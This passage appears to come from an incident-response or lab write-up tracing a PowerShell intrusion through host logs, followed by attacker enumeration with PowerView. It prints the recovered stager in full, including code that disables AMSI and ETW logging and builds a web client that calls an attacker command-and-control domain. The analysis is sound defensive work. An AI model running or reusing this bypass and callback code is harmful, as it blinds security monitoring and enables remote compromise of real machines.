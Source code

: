 The **process.pid: 7116**, in the command-line, it reads a base64-encoded malicious script stored in **the registry key** and launches a second hidden PowerShell process, which decodes and executes that malicious script. Let's see what this process spawns, search for `ppid: 7116`.

![Screenshot 2025-06-14 223456](https://github.com/user-attachments/assets/692985d2-f7b9-46ff-90da-c13046ff95a2)

```powershell
If ($PSVersionTable.PSVersion.Major -ge 3) {
    $Ref = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
    $Ref.GetField('amsiInitFailed', 'NonPublic,Static').SetValue($Null, $true)

    [System.Diagnostics.Eventing.EventProvider]
        .GetField('m_enabled', 'NonPublic,Instance')
        .SetValue(
            [Ref].Assembly
                .GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
                .GetField('etwProvider', 'NonPublic,Static')
                .GetValue($null),
            0
        )
}

[System.Net.ServicePointManager]::Expect100Continue = 0
$wc = New-Object System.Net.WebClient

# Set the User-Agent string to look like a browser
$u = 'Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko'

# Decode and build the URL
$ser = ([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String(
    'aAB0AHQAcAA6AC8ALwBjAGQAbgAuAGIAYQBuAGEAbgBhAHAAZQBlAGwAccBhAHIAdAB5AC4AbgBlAHQAOgA4ADAA'
)))  # http://cdn.bananapeelparty.net:80

$t = '/news.php'

# Set headers and make the request
$wc.Headers.Add('User-Agent', $u)
$wc.Proxy = [System.Net.WebRequest]::DefaultWebProxy
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
```
This payload connects to a malicious domain: `http:[//]cdn.bananapeelparty.net:80/news.php`, and uses custom proxy and credentials to hide the traffic or bypass some firewall rules.


### Credential Access & Discovery:

Following the execution of the malicious payload. In the log, the attacker executed some commands for enumeration. He also used [PowerSploit framework](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1) to use `Invoke-ShareFinder` and `Get-DomainUser` functions for enumeration purposes.

![Screenshot 2025-06-14 225035](https://github.com/user-attachments/assets/8af81d03-73d3-4d87-a13b-1f966165c311)
![Screenshot 2025-06-14 225143](https://github.com/user-attachments/assets/17a7cea1-9412-4e9a-adcd-574cd60bd7c3)
![Screenshot 2025-06-14 225007](https://github.com/user-attachments/assets/19a5d6fa-1d0c-4f25-b28b-9007f792a2ab)
